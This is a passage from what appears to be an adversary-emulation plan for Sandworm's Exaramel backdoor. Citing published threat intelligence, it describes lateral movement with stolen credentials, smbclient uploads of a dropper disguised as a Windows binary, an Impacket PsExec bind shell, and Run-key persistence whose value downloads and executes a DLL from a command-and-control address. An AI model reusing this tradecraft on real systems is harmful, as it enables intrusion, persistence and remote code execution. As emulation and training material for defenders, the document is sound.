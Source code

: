[Source Code](../../Resources/Exaramel/worker/worker.go#L100)

Confirm SSH keys are present on attack platform:

```bash
ls -lsah files/
```

### :microscope: Cited Intelligence

* https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/

* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf

<br>

## Step 15 - Move laterally to Windows host

:microphone: `voice track`

During this step, Sandworm uses credentials gained from step4 to move laterally to gammu/10.0.1.7 as local admin user fherbert.

The way this works is Sandworm first uploads an Exaramel dropper to disk using smbclient with valid credentials. 

The Exaramel dropper is uploaded to `C:\\Windows\\wsmprovav.exe`.

Sandworm then establishes a bind shell to gammu using PsExec.py from the Impacket framework.

From the bind shell, Sandworm establishes registry persistance as user fherbert.

Sandworm then disconnects from the bindshell.

Notionally, the legitimate fherbert user logs in via RDP.

This causes the registry persistence to execute the Exaramel dropper.

The exaramel dropper downloads and executes an Exaramel DLL.


```
Compromised user info:

User:	fherbert@WORKGROUP

System: 10.0.1.7 / gammu

PsExec Service: Windows Check AV

File write: C:\\Windows\\wsmprovav.exe, C:\\Windows\\wsmprovav.dll

Registry Path: HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run

Key: SecurityHealth

Value: C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll

Exaramel-Windows C2: 192.168.0.4:443 HTTPS

```
